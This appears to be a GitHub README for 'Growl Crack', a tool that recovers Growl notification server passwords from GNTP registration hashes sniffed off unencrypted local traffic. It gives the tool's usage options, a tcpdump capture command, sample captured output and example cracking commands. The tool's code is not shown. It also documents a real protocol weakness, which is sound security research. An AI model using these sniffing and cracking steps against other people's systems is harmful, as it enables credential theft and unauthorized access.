 # Growl Crack

By [@ccneill](https://twitter.com/ccneill)

## About

Growl sends the server password hash over an unencrypted socket that can be
obtained by performing a man-in-the-middle attack on either the client or the
server. The hash is salted with a timestamp from the client system.

By default, the bindings linked to from the 
[Growl website](http://growl.info/documentation/developer/bindings.php) all
use MD5 for hashing, which is the easiest of the supported algorithms to crack.

Growl Crack supports cracking the seed using brute force, and the password using
a wordlist.

## Usage

    Usage:
        ./growl_crack.py --seed_hash=SEED_HASH --secret_hash=SECRET_HASH
            [--algo=ALGO --max_time=MAX_TIME --wordlist=WORDLIST]
        ./growl_crack.py --raw_string=RAW_STRING
            [--max_time=MAX_TIME --wordlist=WORDLIST]
        ./growl_crack.py --help

    Options:
        --seed_hash=SEED_HASH      Seed hash (second part of raw string after ".")
        --secret_hash=SECRET_HASH  Secret hash (first part of raw string after ":")
        --algo=ALGO                Algorithm for hashing [default: MD5]
        --raw_string=RAW_STRING    Raw string, in format show above
        --max_time=MAX_TIME        Max time in seconds to go back for seed cracking
                                   [default: 10000]
        --wordlist=WORDLIST        Wordlist to use for cracking password
                                   [default: /usr/share/dict/words]
        --help                     Show help information

## Examples

Let's say you want to sniff your local Growl server for notifications. You can
do this with tcpdump like so:

```bash
sudo tcpdump -i l0 -vvv -A port 23053
```

When sniffing for Growl notifications, you will know you've found a registration
with the hashes for the server password when you see something like the
following:

    19:18:01.582676 IP (tos 0x0, ttl 64, id 5118, offset 0, flags [DF], proto TCP (6), length 13745, bad cksum 0 (->f346)!)
    localhost.60158 > localhost.23053: Flags [P.], cksum 0x33a6 (incorrect -> 0x06e1), seq 1:13694, ack 1, win 12759, options [nop,nop,TS val 265257192 ecr 265257192], length 13693
    .....p5a..1.3.........Z
    ........GNTP/1.0 REGISTER NONE MD5:56E954A58B5DB8523004D7C5BE0CA957.5DD209C7EFDA9D4DF4BC6331FD406A4C
    Application-Name: poke
    Application-Icon: x-growl-resource://...
    Origin-Platform-Version: ...
    Origin-Software-Version: ...
    Origin-Machine-Name: ...
    Origin-Software-Name: gntp.py
    ...

The juicy bit is this here:

    MD5:56E954A58B5DB8523004D7C5BE0CA957.5DD209C7EFDA9D4DF4BC6331FD406A4C

The format of this string is as follows:

    {ALGO}:{SECRET_HASH}.{SEED_HASH}
    
Here are 2 examples of cracking such a string:

```bash 
# Cracking the raw sniffed string
./growl_crack.py --raw_string="MD5:56E954A58B5DB8523004D7C5BE0CA957.5DD209C7EFDA9D4DF4BC6331FD406A4C"

# Entering the hashes manually
./growl_crack.py --seed_hash="5DD209C7EFDA9D4DF4BC6331FD406A4C" --secret_hash="56E954A58B5DB8523004D7C5BE0CA957"
```


[growl_bindings]: "http://growl.info/documentation/developer/bindings.php"
